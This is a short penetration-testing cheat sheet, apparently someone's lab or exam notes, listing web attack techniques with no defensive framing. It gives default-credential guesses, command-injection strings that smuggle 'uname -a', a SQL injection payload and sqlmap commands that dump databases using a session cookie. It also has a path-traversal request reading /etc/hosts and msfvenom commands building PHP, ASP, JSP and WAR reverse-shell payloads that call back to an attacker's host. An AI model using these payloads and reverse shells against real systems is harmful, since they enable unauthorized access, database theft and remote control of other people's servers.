 - Default Password

```
Username: admin Password: admin
Check Google
```

- Command Execution

```
127.0.0.1; uname -a
OR
127.0.0.1 && uname -a
```

- SQL Injection 

```
' or 1=1 #
```

- SQLMAP 

```
$ sqlmap --url=<IP address> --cookie="PHPSESSID=nce5aar41js59p2ber5es3mr2l" --dbms=mysql --level=3 --risk=3
OR
$ sqlmap --data="search=OSINT" --url=http://192.168.1.160/welcome.php --cookie="PHPSESSID=nce5aar41js59p2ber5es3mr2l" --dump
```

- SQLMAP .req file (Ippsec)

```
Copy the entire request from Burp
$ vi login.req
Paste the entire request from Burp
$ sqlmap -r login.req
```

- LFI/RFI

```
http://10.11.14.113/addguestbook.php?name=James&comment=Hello&LANG=../../../../../../../../../../etc/hosts
```

- PHP/ASP/ASPX/JSP/WAR Reverse Shell File Upload

```
http://pentestmonkey.net/tools/web-shells/php-reverse-shell
Edit IP address and port

$ msfvenom -p php/reverse_php LHOST=<IP address> LPORT=<Port> -f raw > shell.php
$ msfvenom -p php/meterpreter_reverse_tcp LHOST=<IP address> LPORT=<Port> -f raw > shell.php
$ msfvenom -p windows/meterpreter/reverse_tcp LHOST=<IP address> LPORT=<Port> -f asp > shell.asp
$ msfvenom -p windows/meterpreter/reverse_tcp LHOST=<IP address> LPORT=<Port> -f aspx > shell.aspx
$ msfvenom -p java/jsp_shell_reverse_tcp LHOST=<IP Address> LPORT=<Port> -f raw > shell.jsp
$ msfvenom -p java/jsp_shell_reverse_tcp LHOST=<IP Address> LPORT=<Port> -f war > shell.war
```
